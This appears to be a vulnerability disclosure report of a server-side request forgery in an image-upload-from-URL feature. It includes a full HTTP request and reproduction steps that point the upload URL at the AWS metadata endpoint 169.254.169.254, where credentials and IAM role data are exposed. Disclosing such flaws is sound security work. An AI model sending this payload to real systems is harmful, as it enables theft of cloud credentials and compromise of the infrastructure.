 # Upoad image from external URL can lead to SSRF

#### Description

I identified that upload image from URL feature is vulnerable to ssrf, by injecting a specially crafted URL, an attacker can exploit this vulnerability to send arbitrary requests to the backend server, including requests to the AWS metadata endpoint. This could potentially allow an attacker to extract sensitive data, such as AWS access keys, IAM roles, or instance metadata. 

#### POST Request

```
POST /exp.php HTTP/2
Host: example.com
Cookie: _ga=GA1.2.448835302.1663006136; __gads=ID=12650bacbbb407c1-22b25b0367d600ff:T=1663006138:RT=1663006138:S=ALNI_MbIQgv1tetv5sWhtd2l-DWa5gpBAw; _gid=GA1.2.1181242970.1684070063; _gat_UA-129663421-2=1; __gpi=UID=000009c37d6d17f9:T=1663006138:RT=1684070064:S=ALNI_Mbde2euUm1z5T_fwwj9zbyEtdMKrA
Content-Length: 46
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://example.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://example.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

url=http://169.254.169.254/latest/meta-data/
```


#### Steps to Reproduce

1. Navigate to the upload image from url feature on your website.
2. Enter the following payload into the URL parameter: http://169.254.169.254/latest/meta-data/
3. Capture the request in burp > Send to Repeater > Submit
4. Observe the response

#### Impact

The SSRF vulnerability through the image upload feature can enable an attacker to bypass authentication and authorization mechanisms and gain unauthorized access to AWS metadata files. This poses a significant risk, as it could lead to unauthorized access to sensitive resources and potentially compromise the entire AWS infrastructure.
